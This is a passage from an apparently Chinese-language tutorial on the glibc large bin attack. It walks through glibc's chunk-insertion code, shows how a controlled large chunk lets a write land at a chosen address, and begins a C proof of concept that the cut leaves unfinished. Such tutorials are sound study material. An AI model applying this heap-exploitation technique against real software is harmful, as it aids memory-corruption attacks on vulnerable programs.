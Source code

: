     victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;

    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    可使 `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim`、`fwd->bck->fd = victim`。这种情况 `fwd` 不可控，它永远指向 `main_arena.bin[1]`，所以只能是 `fwd->fd` 可控，即最大的 large chunk 可控时可实现将 unsorted chunk 地址写入 `fwd->fd->bk_nextsize + 0x20`。

2. 在 unsorted chunk 大小比最小的 chunk 大时，会执行：

    ```cpp
    bck = fwd->bck
    
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
    
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    可使 `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim`、`fwd->bck->fd = victim`。这种情况 `fwd` 指向前一个 large chunk，如果它可控即可实现将 unsorted chunk 地址写入 `fwd->bk_nextsize + 0x20` 和 `fwd->bck + 0x10`。

#### 利用1

然后我们来测试一下，先制造一下第 1 种情况：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

```